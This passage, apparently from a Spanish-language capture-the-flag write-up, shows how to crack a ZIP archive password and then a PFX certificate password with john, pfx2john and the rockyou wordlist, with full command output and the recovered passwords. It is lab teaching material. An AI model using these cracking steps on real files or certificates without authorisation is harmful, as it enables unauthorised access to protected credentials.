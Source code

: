 Luego de obtener el hash procederemos a crackear con `john` y el diccionario de `rockyou.txt`

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2024-03-06 09:01) 1.960g/s 6810Kp/s 6810Kc/s 6810KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Luego obtendremos la contraseña, en este `.zip` se encontraba el archivo `legacyy_dev_auth.pfx` 

## Certificado pfx

Investigando el archivo `legacyy_dev_auth.pfx`  o la extensión `.pfx` en [Hacktricks - pfx](https://book.hacktricks.xyz/crypto-and-stego/certificates#pfx-p12-pkcs-12-format) podemos hacer uso de este para obtener unos certificados `.pem`. En este caso este archivo nos pide una contraseña

![20240306095827.png](20240306095827.png)

Para obtener la contraseña usaremos `pfx2john`

```php
❯ pfx2john legacyy_dev_auth.pfx > hash_legacyy_dev_auth
```

Ahora que tenemos el hash crackearemos el hash con `john`

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_legacyy_dev_auth
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:40 DONE (2024-03-06 09:47) 0.02467g/s 79756p/s 79756c/s 79756C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Luego obtendremos la contraseña que en este caso es `thuglegacy`

# Explotación
